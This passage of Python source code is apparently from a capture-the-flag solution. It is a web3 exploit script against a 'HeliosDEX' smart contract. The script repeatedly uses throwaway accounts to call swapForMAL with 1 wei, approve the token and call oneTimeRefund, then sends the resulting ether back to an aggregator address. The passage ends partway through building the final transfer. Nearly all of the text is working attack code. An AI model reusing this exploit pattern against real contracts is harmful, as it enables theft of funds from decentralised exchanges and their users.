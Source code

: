 ```python
    # Create a persistent instance of the target contract
    target_contract_inst = w3.eth.contract(address=persistent_target, abi=heliosdex_abi)
    mal_token_addr = target_contract_inst.functions.malakarEssence().call()
    mal_token_addr = w3.to_checksum_address(mal_token_addr)
    print(f"[+] Persistent target MAL Token: {mal_token_addr}")
    
    def run_exploit_for_ephemeral(account, private_key):
        """Use the given ephemeral account to run the exploit cycle and transfer funds back to aggregator."""
        acct = w3.to_checksum_address(account)
        w3.eth.default_account = acct
        print(f"[*] Running exploit for ephemeral account: {acct}")
        dex = w3.eth.contract(address=persistent_target, abi=heliosdex_abi)
        mal_token = w3.eth.contract(address=mal_token_addr, abi=erc20_abi)
        
        def send_tx(tx):
            tx['nonce'] = w3.eth.get_transaction_count(acct)
            tx['chainId'] = w3.eth.chain_id
            tx['maxPriorityFeePerGas'] = w3.to_wei(2, 'gwei')
            tx['maxFeePerGas'] = w3.to_wei(12, 'gwei')
            signed = w3.eth.account.sign_transaction(tx, private_key=private_key)
            tx_hash = w3.eth.send_raw_transaction(signed.raw_transaction)
            receipt = w3.eth.wait_for_transaction_receipt(tx_hash)
            print(f"    [+] TX confirmed in block {receipt.blockNumber}")
            return receipt
        
        # Step 1: swapForMAL with 1 wei
        print("    [*] Calling swapForMAL...")
        tx1 = dex.functions.swapForMAL().build_transaction({
            'from': acct,
            'value': 1,
            'gas': 200000
        })
        send_tx(tx1)
        
        # Step 2: Approve MAL token spending
        print("    [*] Approving MAL token...")
        tx2 = mal_token.functions.approve(persistent_target, 1).build_transaction({
            'from': acct,
            'gas': 100000
        })
        send_tx(tx2)
        
        # Step 3: oneTimeRefund
        print("    [*] Calling oneTimeRefund...")
        tx3 = dex.functions.oneTimeRefund(mal_token_addr, 1).build_transaction({
            'from': acct,
            'gas': 200000
        })
        send_tx(tx3)
        
        # Transfer funds from ephemeral account back to aggregator
        balance = w3.eth.get_balance(acct)
        print(f"    [*] Ephemeral account balance: {w3.from_wei(balance, 'ether')} ETH")
        gas_limit = 21000
        max_fee = w3.to_wei(12, 'gwei')
        gas_cost = gas_limit * max_fee
        if balance > gas_cost:
            value_to_transfer = balance - gas_cost
            print(f"    [*] Transferring {w3.from_wei(value_to_transfer, 'ether')} ETH back to aggregator {aggregator_address}...")
            tx4 = {
                'from': acct,
```